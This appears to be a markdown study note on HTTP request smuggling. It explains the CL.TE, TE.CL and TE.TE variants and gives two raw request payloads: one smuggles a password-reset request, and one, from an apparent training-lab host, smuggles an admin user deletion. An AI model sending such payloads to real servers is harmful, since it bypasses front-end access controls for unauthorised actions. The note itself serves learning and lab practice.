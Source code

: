 ## Request smuggling
is a vulnerability introduced when reverse-proxies and backend servers are not syncronized in their preference for either the ```Content-Length```
or ```Transfer-Encoding``` header for defining the boundaries of incoming client requests - allowing an attacker to send a request that would overlap
with other requests that are forwarded to the backend (for example: injecting a POST request that has a body parameter ```smuggling=``` and ```Content-Length: 30``` - 
resulting in the request line of the next request in the stack to be parsed as the content of the variable smuggling).  
which results in part of the request to be interpreted as the start of the next request.


the vuln could be classified as either of the following:

    * ```CL.TE``` the front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header.
    * ```TE.CL``` the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header.
    * ```TE.TE``` the front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way.

#### ```CL.TE``` example
```
POST / HTTP/1.1
Host: vulnerable.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

GET /reset?pass=smuggled HTTP/1.1
Host: vulnerable.com
```

#### ```TE.CL``` example
```
POST / HTTP/1.1
Host: 0a7500c10314fd5a8767681c0018002e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

87
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```
in this example, the ```Content-Length``` of the injected POST request surpasses the length of ```x=1\r\n0\r\n\r\n```, resulting in the parsing of the next incoming request's line as
the body of a POST request.
